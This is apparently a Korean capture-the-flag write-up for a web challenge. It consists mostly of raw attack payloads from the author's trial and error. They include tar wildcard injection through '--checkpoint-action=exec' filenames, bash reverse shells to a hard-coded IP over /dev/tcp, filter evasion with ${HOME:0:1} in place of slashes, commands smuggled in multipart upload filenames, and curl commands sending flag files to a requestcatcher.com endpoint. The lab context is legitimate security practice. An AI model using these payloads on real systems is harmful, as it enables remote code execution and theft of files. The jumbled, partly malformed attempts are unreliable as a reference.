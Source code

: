 ```python
response = requests.get(
    "https://random.chal.cyberjousting.com/api/file?filename=/439f4860b2c8e9cc50bf2e5dca2e442f/flag.txt",
    headers=headers,
)

print(response.text)

```



---
# argument
- 개인적으로 본인 실력에 딱 맞는 문제였던 것 같음
- 배울게 많았던 문제
### 시행착오
```
echo "#! /bin/bash" > shell.sh
echo "bash -c 'bash -i >& /dev/tcp/211.250.216.249/7000 0>&1'" >> shell.sh
echo "" > "--checkpoint-action=exec=./shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *


---

bash -c 'bash -i >& ${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}211.250.216.249${HOME:0:1}7000 0>&1'

------WebKitFormBoundaryAjTL5kBMBhp9vuJL
Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=bash -c 'bash -i >& ${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}211.250.216.249${HOME:0:1}7000 0>&1'"
Content-Type: text/x-sh

---

curl -X POST --data-urlencode "data=$(cat /flag*)" https://asdf.requestcatcher.com/test

------WebKitFormBoundaryAjTL5kBMBhp9vuJL
Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=curl -X POST --data-urlencode \"data=$(ls)\" https:${HOME:0:1}${HOME:0:1}asdf.requestcatcher.com${HOME:0:1}test"
Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=curl -X POST --data-urlencode \"data=$(cat ${HOME:0:1}flag*)\" https://asdf.requestcatcher.com/test"
Content-Type: text/x-sh


curl https:${HOME:0:1}${HOME:0:1}asdf.requestcatcher.com${HOME:0:1}test -F=@/flag*
curl https:${HOME:0:1}${HOME:0:1}asdf.requestcatcher.com${HOME:0:1}test -F=@ex


--checkpoint-action=exec=curl -X POST --data-urlencode "data=${echo 3}" asdf.requestcatcher.com

---

echo "#! /bin/bash" > shell.sh;echo "bash -c 'bash -i >& /dev/tcp/211.250.216.249/7000 0>&1'" >> shell.sh;sh shell.sh
--checkpoint-action=exec=echo \"#! /bin/bash\" > shell.sh;echo \"bash -c 'bash -i >& /dev/tcp/211.250.216.249/7000 0>&1'\" >> shell.sh;sh shell.sh

---

#! /bin/bash
```